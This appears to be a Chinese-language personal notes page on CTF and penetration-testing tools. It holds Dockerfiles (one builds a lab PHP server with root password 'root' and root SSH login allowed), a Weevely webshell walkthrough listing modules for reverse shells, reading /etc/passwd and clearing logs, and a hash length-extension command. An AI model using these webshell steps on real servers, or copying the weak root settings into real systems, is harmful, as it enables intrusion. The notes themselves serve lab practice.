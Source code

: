 # 镜像
[ctfwiki/ctf-wiki - Docker Image | Docker Hub](https://hub.docker.com/r/ctfwiki/ctf-wiki)
[wcjiang/linux-command - Docker Image | Docker Hub](https://hub.docker.com/r/wcjiang/linux-command)
[mpepping/cyberchef - Docker Image | Docker Hub](https://hub.docker.com/r/mpepping/cyberchef)
[remnux/ciphey - Docker Image | Docker Hub](https://hub.docker.com/r/remnux/ciphey)
[sonarqube - Official Image | Docker Hub](https://hub.docker.com/_/sonarqube)
##### PHP manual
[PHP: Download documentation](https://www.php.net/download-docs.php)
```dockerfile
FROM nginx
COPY ./php-chunked-xhtml /usr/share/nginx/html
```

```sh
docker build . -t php8-manual
docker run --rm --name php8-manual -dp 3001:80 php8-manual
```
##### PHP 服务器

```dockerfile
FROM php:7.2-apache
LABEL Author="Momean"
ENV TZ=Asia/Shanghai
RUN ln -snf /usr/share/zoneinfo/$TZ /etc/localtime && echo $TZ > /etc/timezone; \
    sed -i 's/deb.debian.org/mirrors.aliyun.com/g' /etc/apt/sources.list \
    && sed -i 's/security.debian.org/mirrors.aliyun.com/g' /etc/apt/sources.list
RUN apt-get update -y; apt-get install -y net-tools wget openssh-server
RUN chown -R www-data:www-data /var/www/html \
    && chmod +x /usr/local/bin/docker-php-entrypoint \
    && mv /usr/local/etc/php/php.ini-production /usr/local/etc/php/php.ini
# 取消pam限制
RUN sed -ri 's/session requireD pam_loginuid.so/#session required pam_loginuid.so/g' /etc/pam.d/sshd
# 修改root密码
RUN echo root:root | chpasswd
# 允许root登录
RUN sed -i 's/#PermitRootLogin prohibit-password/PermitRootLogin yes/g' /etc/ssh/sshd-config
# 似乎该目录不存在无法运行sshd
RUN mkdir -p /var/run/sshd
# 生成公钥
RUN ssh-keygen -q -t rsa -b 2048 -f /etc/ssh/ssh_host_rsa_key -P '' -N ''
RUN /usr/sbin/sshd -D
WORKDIR /var/www/html
EXPOSE 80
EXPOSE 22
```

如果`ssh`失败，提示`kex_exchange_identification: Connection closed by remote host`，可以尝试重启`sshd`，使用`systemctl restart sshd.service`，
但是需要进入特权模式`docker run --rm -d -p 8081:80 -p 2222:22 -it --privileged -v "$PWD":/var/www/html php72-ctf /sbin/init` 重要的是其中`--privileged`以及`/sbin/init`

# Weevely
kali自带的webshell管理工具
1. 生成木马文件，在weebely3文件夹中会生成一个连接密码为123的shell.php
```sh
./weevely.py generate <password> shell.php
```
2. 上传shell文件到目标服务器
3. 连接木马
```sh
./weevely.py http://192.168.139.129:81/shell.php <password>
```
4. 连上之后可以执行指令了
5. 利用自带模块收集信息

```sh
:system_info -info uname
# 直接输入help可以查看其他可用模块
```

```sh
:shell_su                     # 通过更变使用者来执行shell命令，可以获得root权限来执行命令.
:shell_sh                     # 执行 shell 命令.
:shell_php                    # 执行 PHP 命令.
:system_extensions            # 收集PHP和webserver扩展列表
:system_info                  # 收集系统信息
:system_procs                 # 列出正在运行的进程
:audit_disablefunctionbypass  # 使用mod_cgi和.htaccess绕过系统禁用函数的限制。它会上传.htaccess和CGI脚本，并在远程服务器上运行伪系统shell
:audit_etcpasswd              # 查看/etc/passwd文件
:audit_suidsgid               # 查找带有SUID或SGID标志的文件。
:audit_phpconf                # 查看php配置信息
:audit_filesystem             # 审核文件系统的弱权限。枚举各种系统目录并寻找可读写执行的目录，模块仅默认搜索部分linux下的常见目录，logs、root、home等
:backdoor_reversetcp          # 执行反向TCP shell. 需要nc -lvp <port>监听
:backdoor_tcp                 # 在TCP端口上生成shell
:net_scan                     # TCP端口扫描.
:net_mail                     # 发送邮件.
:net_ifconfig                 # 获取网络接口地址.
:net_curl                     # 执行类似curl的HTTP请求.
:net_proxy                    # 运行本地代理以通过目标转移HTTP / HTTPS浏览
:net_phpproxy                 # 在目标上安装PHP代理.
:bruteforce_sql               # 可用来猜解数据库密码.
:file_find                    # 查找具有给定名称和属性的文件.
:file_download                # 从远程文件系统下载文件.
:file_check                   # 获取文件的属性和权限.
:file_touch                   # 更改文件时间戳.
:file_cd                      # 更改当前工作目录.
:file_grep                    # 打印与多个文件中的模式匹配的行.
:file_gzip                    # 压缩或解压gzip文件.
:file_tar                     # 压缩或解压tar文件.
:file_enum                    # 检查路径列表的存在和权限
:file_bzip2                   # 压缩或解压bzip2文件.
:file_mount                   # 使用HTTPfs挂载远程文件系统.
:file_clearlog                # 从文件中删除字符串.
:file_zip                     # 压缩或解压zip文件.
:file_cp                      # 复制单个文件.
:file_upload2web              # 自动将文件上传到Web文件夹并获取相应的URL.
:file_edit                    # 在本地编辑器上编辑远程文件.
:file_read                    # 从远程文件系统中读取远程文件.
:file_webdownload             # 指定URL下载文件.
:file_upload                  # 文件上载到远程文件系统.
:file_ls                      # 列出目录内容.
:file_rm                      # 删除远程文件.
:sql_dump                     # Multi dbms mysqldump replacement.
:sql_console                  # 执行SQL查询或运行sql控制台.
```


# Hash_extender
[iagox86/hash_extender (github.com)](https://github.com/iagox86/hash_extender)
哈希扩展攻击的实现

```sh
# clone后将makefile中改为-Wno-deprecated-declarations再进行make
- CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated
+ CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated-declarations


# 使用方式
hash_extender --data data --secret 6 --append append --signature 6036708eba0d11f6ef52ad44e8b74d5b --format md5

# H(secret + data)
# 使得自行拼凑的 H(secret + data + append)有效
# secret其实可以随便填，反正随便猜个长度
```



# Metasploit
`msfconsole`启动
常用的渗透测试工具，包含了常见的漏洞利用模块和生成各种木马。



